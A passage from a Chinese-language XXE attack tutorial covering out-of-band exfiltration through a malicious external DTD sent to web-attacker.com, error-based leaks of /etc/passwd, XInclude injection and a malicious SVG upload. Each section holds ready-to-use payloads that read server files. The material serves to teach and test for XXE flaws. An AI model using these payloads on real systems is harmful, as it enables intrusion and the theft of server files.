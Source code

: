 ## 2.5 无回显 XXE 将数据带外泄露  
首先构造恶意 DTD 文件，内容如下：  
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>"> 
%eval; 
%exfiltrate;
```
将恶意 DTD 文件托管到 web 服务上，例如：`http://web-attacker.com/malicious.dtd`  
最后，攻击者向易受攻击的应用程序提交如下 XXE payload：  
```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe;]>
```
这个 XXE payload 声明了一个名为 `xxe` 的 XML 参数实体，然后在 DTD 中使用该实体。  
这将导致 XML 解析器从攻击者的服务器获取外部 DTD 并内联解释它。然后执行恶意 DTD 中定义的步骤，并将 `/etc/passwd` 文件传输到攻击者的服务器。  

## 2.6 无回显 XXE 报错信息检索敏感信息  
构造恶意 DTD 文件，内容如下：
```xml
<!ENTITY % file SYSTEM "file:///etc/passwd"> 
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>"> 
%eval; 
%error;
```
可能会产生如下的报错信息：  
```text
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
...
```

## 2.7 XInclude 攻击  
> [!tip]
> SOAP 是基于 XML 的简易协议，可使应用程序在 HTTP 之上进行信息交换。  

有些应用程序接收客户端提交的数据，在服务器端会将数据嵌入到一个 XML 文档中，然后解析该文档。当客户端提交的数据被放置到后端 SOAP 请求中，再由后端 SOAP 服务处理时，这种情况下无法使用常见的 XXE 攻击，因为无法控制整个 xml 文档，无法定义或者修改 `DOCTYPE` 元素。 
需要使用 `XInclude` 进行替代。`XInclude` 允许从子文档开始构建 xml 文档，可以在 xml 文档中的任何数据值中放入 `XInclude`。  
例如：

```xml
<foo xmlns:xi="http://www.w3.org/2001/XInclude"> 
<xi:include parse="text" href="file:///etc/passwd"/></foo>
```

## 2.8 利用 XXE 进行文件上传攻击  
一些应用程序允许用户上传文件，在服务端进行处理。一些常见的文件格式使用到了 xml 或者包含 xml 的子组件。例如：`DOCX` 的办公文档，`SVG` 的图片格式。  
例如：应用程序可能允许用户上传图像，希望接受 `PNG` 或 `JPEG` 等格式，而图像处理库可能也支持 `SVG` 格式。可以通过提交恶意的 `SVG` 图像，完成 XXE 攻击。  
构造恶意 SVG 图片文件：  
```xml
<?xml version="1.0" standalone="yes"?>
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]>
<svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1">
<text font-size="16" x="0" y="16">&xxe;</text></svg>
```
上传该图像后，图像会显示处理 `/etc/hostname` 文件的内容。  
